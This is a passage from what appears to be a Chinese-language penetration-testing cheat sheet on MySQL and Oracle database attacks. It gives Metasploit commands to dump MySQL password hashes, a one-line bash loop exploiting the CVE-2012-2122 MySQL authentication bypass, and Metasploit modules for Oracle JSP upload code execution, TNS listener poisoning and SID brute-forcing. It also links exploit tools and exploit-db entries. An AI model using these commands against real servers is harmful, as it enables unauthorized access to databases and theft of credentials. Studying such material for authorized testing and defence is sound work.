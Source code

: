 **获取 mysql.user 的 hash**
```bash
use auxiliary/scanner/mysql/mysql_hashdump
set RHOSTS <ip>
set USERNAME <user>
set PASSWORD <pass>
set THREADS 20
exploit
```

**CVE-2012-2122 Mysql 身份认证绕过漏洞**
- 简述

    当连接 MariaDB/MySQL 时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是 memcmp() 返回一个非零值，也会使 MySQL 认为两个密码是相同的。也就是说只要知道用户名，不断尝试就能够直接登入 SQL 数据库。

- POC | Payload | exp
    ```
    for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
    ```

---

## Oracle

**工具**
- [jas502n/oracleShell](https://github.com/jas502n/oracleShell) - oracle 数据库命令执行,支持连接的 Oracle 版本较低
- [quentinhardy/odat](https://github.com/quentinhardy/odat)

**CVE-2010-3600 Oracle Enterprise Manager Grid Control JSP 代码执行漏洞**
- MSF 模块
    ```bash
    use exploit/windows/oracle/client_system_analyzer_upload
    ```

**CVE-2012-1675 Oracle TNS Listener Remote Poisoning**
- 文章
    - [Oracle TNS Listener Remote Poisoning](http://www.cnblogs.com/zhuxr/p/9618512.html)

- MSF 模块
    ```bash
    use auxiliary/admin/oracle/tnscmd       # 该漏洞可以远程获取到 oracle 的内存信息,若是能获取到内存中的数据即为存在漏洞.
    set rhosts <ip>
    run

    use auxiliary/admin/oracle/sid_brute    # 爆破 oracle 的 SID
    set rhosts <ip>
    run
    ```

**CVE-2012-5615 Oracle MySQL Server 5.5.19 用户名枚举漏洞**
- POC | Payload | exp
    - [MySQL - Remote User Enumeration](https://www.exploit-db.com/exploits/23081)
    - [MySQL 5.1/5.5 (Windows) - 'MySQLJackpot' Remote Command Execution](https://www.exploit-db.com/exploits/23073)

---